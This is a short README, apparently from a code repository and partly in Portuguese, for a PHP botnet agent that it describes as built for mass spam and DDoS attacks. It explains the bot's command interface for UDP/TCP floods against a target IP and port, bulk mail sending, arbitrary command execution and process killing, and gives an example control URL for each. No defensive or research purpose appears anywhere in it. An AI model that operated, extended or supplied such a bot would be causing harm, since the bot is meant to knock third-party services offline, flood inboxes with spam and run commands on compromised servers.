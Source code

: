 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
        command = ddos.
        flag = Attack method: udp, tcp.
        data = IP:PORT.

        phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22

 - Spam:
        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null


